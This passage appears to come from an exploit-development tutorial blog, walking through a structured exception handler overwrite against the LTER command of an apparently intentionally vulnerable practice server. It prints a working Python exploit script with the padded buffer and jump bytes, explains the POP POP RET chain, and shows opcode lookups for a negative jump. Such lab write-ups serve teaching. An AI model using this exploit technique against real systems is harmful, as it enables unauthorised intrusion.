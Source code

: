 So now our exploit looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'
Seh = '\x2b\x17\x50\x62'

buffer = 'A' * 3514
buffer += nSeh
buffer += Seh
buffer += 'D' * (4000 - 3514 - 4 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

As you can see, this jumps us into our `D` buffer. **Don't forget to put a breakpoint at our `nSeh` jump code so you can step through from here going forward.**

We: 
1. land in our current SEH address which is a `POP POP RET`,
2. we use `POP POP RET` to jump up into our 'next SEH' byte-space which holds jump code, 
3. we jump into our `D` buffer. 

![](/assets/images/CTP/LTERdbuff.JPG)

EIP is pointed at the top of our `D` buffer, we're good to go. This `D` buffer isn't large enough for much code. We also don't have enough room to encode an egghunter. We don't even have enough room to set up an encoded long jump back (I tried, boy did I try.) Let's use our aforementioned negative jump back that we went over in the Alphanumeric section of the post.

### First Negative Jump Back
First thing we need to do is `push esp` and `pop eax` so that we can set up `ESP` to near the bottom of our `D` buffer so that our decoded code will appear right above it visually and we'll be able to pass execution to our jump back. 

Using `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` (thanks @AnubisOnSec!), we can get those opcodes easily. 
```terminal_session
astrid:~/ # /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > push esp
00000000  54                push esp
nasm > pop eax
00000000  58                pop eax
```
